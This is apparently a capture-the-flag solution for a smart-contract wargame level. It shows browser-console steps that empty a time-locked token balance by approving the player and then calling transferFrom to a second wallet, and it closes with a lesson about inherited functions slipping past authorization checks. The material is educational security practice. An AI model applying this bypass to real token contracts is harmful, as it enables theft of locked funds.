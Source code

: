 Solution
========

1. Get you balance with ```(await contract.balanceOf(player)).toString()``` --> '1000000000000000000000000'
2. Approve tokens to be spent with ```await contract.approve(player, BigInt('1000000000000000000000000'))```
3. Fund a secondary account of your Metamask wallet with some ETH
4. ```await contract.transferFrom(player, 'SECONDARY_ACCOUNT_ADDRESS' ,BigInt('1000000000000000000000000'))```
5. ```(await contract.balanceOf(player)).toString()``` --> '0' --> SOLVED

Conclusion
==========
When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that ```transfer``` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.